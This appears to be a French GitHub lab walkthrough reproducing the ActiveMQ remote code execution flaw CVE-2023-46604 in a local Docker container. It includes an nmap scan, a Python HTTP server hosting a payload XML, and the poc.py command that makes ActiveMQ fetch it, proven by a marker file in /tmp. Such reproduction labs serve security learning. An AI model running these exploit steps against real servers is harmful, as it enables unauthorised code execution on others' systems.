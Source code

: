 CVE 2023-46604

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2023 en utilisant:

docker compose up -d

![Capture d’écran 2024-10-28 à 12 38 08](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

Accédez ensuite à l'interface d'administration dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.17.3) :

![Capture d’écran 2024-10-28 à 12 39 45](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-28 à 12 40 48](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande : nmap -p- 192.168.1.145

![Capture d’écran 2024-10-28 à 12 42 12](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)



Ensuite, pour exploiter ce CVE, ouvrez un port avec la commande suivante :
python3 -m http.server -b 192.168.1.145 6666

![Capture d’écran 2024-10-28 à 12 46 15](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

Utilisez ensuite les fichiers poc.py et poc.xml pour envoyer la commande suivante :
python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml

Vous pouvez vérifier que la commande a bien été reçue sur le port :
![Capture d’écran 2024-10-28 à 12 49 13](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

Ensuite, en écrivant: docker ps -a on peut identifier l'id du container ouvert et qui correspond a activemq.
Grace a cette id on effectue cette commande pour accédez au conteneur:
docker exec -it 55cfcd6ae598 /bin/bash

Enfin, vérifiez dans le dossier /tmp pour voir si l'injection a réussi :
ls -l /tmp/

On  devrait avoir un fichier crée comme celui ci:
-rw-r--r-- 1 root root    0 Oct 28 11:48 activeMQ-RCE-success

Nous avons réussi à créer le fichier activeMQ-RCE-success, ce qui constitue une preuve de l'exécution réussie de l'injection de code à distance à travers une requête malveillante.

![Capture d’écran 2024-10-28 à 12 51 17](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

Cet exploit montre comment CVE-2023-46604 permet une exécution de code à distance via l'injection d'une payload dans ActiveMQ, ouvrant ainsi des voies d'accès non autorisées au système.

